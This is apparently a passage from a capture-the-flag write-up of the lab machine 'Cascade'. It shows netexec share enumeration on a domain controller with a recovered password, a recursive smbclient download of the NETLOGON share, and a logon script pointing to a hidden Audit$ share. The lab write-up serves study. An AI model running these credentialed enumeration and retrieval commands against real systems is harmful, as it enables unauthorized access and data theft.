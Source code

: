 ![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`netexec smb 10.10.10.182 -u 's.smith' -p 'sT333ve2' --shares`:
```
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\s.smith:sT333ve2 
SMB         10.10.10.182    445    CASC-DC1         [*] Enumerated shares
SMB         10.10.10.182    445    CASC-DC1         Share           Permissions     Remark
SMB         10.10.10.182    445    CASC-DC1         -----           -----------     ------
SMB         10.10.10.182    445    CASC-DC1         ADMIN$                          Remote Admin
SMB         10.10.10.182    445    CASC-DC1         Audit$          READ🔍          
SMB         10.10.10.182    445    CASC-DC1         C$                              Default share
SMB         10.10.10.182    445    CASC-DC1         Data            READ            
SMB         10.10.10.182    445    CASC-DC1         IPC$                            Remote IPC
SMB         10.10.10.182    445    CASC-DC1         NETLOGON        READ🔍          Logon server share 
SMB         10.10.10.182    445    CASC-DC1         print$          READ            Printer Drivers
SMB         10.10.10.182    445    CASC-DC1         SYSVOL          READ            Logon server share
```

`mkdir NETLOGON`

`smbclient --user 's.smith' --password='sT333ve2' //10.10.10.182/NETLOGON -c 'prompt OFF;recurse ON;lcd /home/nabla/NETLOGON;mget *'`:
```
getting file \MapAuditDrive.vbs of size 258 as MapAuditDrive.vbs (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)
getting file \MapDataDrive.vbs of size 255 as MapDataDrive.vbs (0.5 KiloBytes/sec) (average 0.5 KiloBytes/sec)
```

`tree ./NETLOGON`:
```
./NETLOGON
├── MapAuditDrive.vbs
└── MapDataDrive.vbs

1 directory, 2 files
```

`cat ./NETLOGON/MapAuditDrive.vbs`:
```
'MapAuditDrive.vbs
Option Explicit
Dim oNetwork, strDriveLetter, strRemotePath
strDriveLetter = "F:"
strRemotePath = "\\CASC-DC1\Audit$"🔍
Set oNetwork = CreateObject("WScript.Network")
oNetwork.MapNetworkDrive strDriveLetter, strRemotePath
WScript.Quit
```

`mkdir Audit`
